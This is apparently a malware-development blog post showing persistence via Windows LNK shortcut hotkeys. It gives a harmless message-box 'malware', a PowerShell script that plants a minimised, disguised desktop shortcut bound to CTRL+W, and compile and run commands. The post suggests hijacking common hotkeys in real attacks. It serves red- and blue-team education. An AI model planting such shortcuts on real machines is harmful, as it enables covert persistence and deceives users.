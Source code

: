 
##
#
https://cocomelonc.github.io/persistence/2023/12/10/malware-pers-23.html
#
##

Malware development: persistence - part 23. LNK files. Simple Powershell example.

3 minute read

﷽

Hello, cybersecurity enthusiasts and white hackers!

pers

This post is based on my own research into one of the more interesting malware persistence tricks: via Windows LNK files.
LNKPermalink

According to Microsoft, an LNK file serves as a shortcut or “link” in Windows, providing a reference to an original file, folder, or application. For regular users, these files serve a meaningful purpose, facilitating file organization and workspace decluttering. However, from an attacker’s perspective, LNK files take on a different significance. They have been exploited in various documented attacks by APT groups and, to my knowledge, remain a viable option for activities such as phishing, establishing persistence, executing payloads.

Do you know that Windows shortcuts can be registered using a shortcut key in terms of execution? This is the main trick for malware persistence in this case.
practical examplePermalink

Let’s say we have a “malware”. As usually, meow-meow messagebox application hack.c:

/*
hack.c
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/12/10/malware-pers-23.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}

And then, just create powershell script for create LNK file with the following properties:

# Define the path for the shortcut on the desktop
$shortcutPath = "$([Environment]::GetFolderPath('Desktop'))\Meow.lnk"

# Create a WScript Shell object
$wshell = New-Object -ComObject Wscript.Shell

# Create a shortcut object
$shortcut = $wshell.CreateShortcut($shortcutPath)

# Set the icon location for the shortcut
$shortcut.IconLocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"

# Set the target path and arguments for the shortcut
$shortcut.TargetPath = "Z:\2023-12-10-malware-pers-23\hack.exe"
$shortcut.Arguments = ""

# Set the working directory for the shortcut
$shortcut.WorkingDirectory = "Z:\2023-12-10-malware-pers-23"

# Set a hotkey for the shortcut (e.g., CTRL+W)
$shortcut.HotKey = "CTRL+W"

# Set a description for the shortcut
$shortcut.Description = "Not malicious, meow-meow malware"

# Set the window style for the shortcut (7 = Minimized window)
$shortcut.WindowStyle = 7

# Save the shortcut
$shortcut.Save()

# Optionally make the link invisible by adding 'Hidden' attribute
# (Get-Item $shortcutPath).Attributes += 'Hidden'

As you can see, the logic is pretty simple. We simply create a shortcut on the desktop that has a hotkey specified: CTRL+W. Of course, in real attack scenarios it could be something like CTRL+C, CTRL+V or CTRL+P, etc.

For example, if you create a shortcut for Paint, it does not have any hotkey specified:

pers

    Explorer restricts shortcut support to commands beginning with CTRL+ALT. Additional sequences must be set programmatically through COM.

demoPermalink

Let’s go to see everything in action. First of all, compile our “malware”:

x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive

pers

For checking correctness, run it:

.\hack.exe

pers

The just run our powershell script for persistence:

Get-Content pers.ps1 | PowerShell.exe -noprofile -

pers

As a result, Meow LNK file is created successfully.

If we look at its properties, everything is ok:

pers

Finally just run it and try to trigger CTRL+W hotkey:

pers

pers

As you can see, everything worked perfectly as expected! =^..^= :)

This technique is used by APT groups like APT28, APT29, Kimsuky and software like Emotet in the wild. In all honesty, this method is widely employed and widespread due to its extreme convenience in deceiving the victims.

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.

Many thanks to my friend and colleague Anton Kuznetsov, he reminded me of this technique when he presented one of his most amazing talks.

    This is a practical case for educational purposes only.

ATT&CK MITRE: T1204.001
APT28
APT29
Kimsuky
Emotet
MSDN: Shell Link (.LNK) Binary File Format
Malware persistence: part 1
source code in github
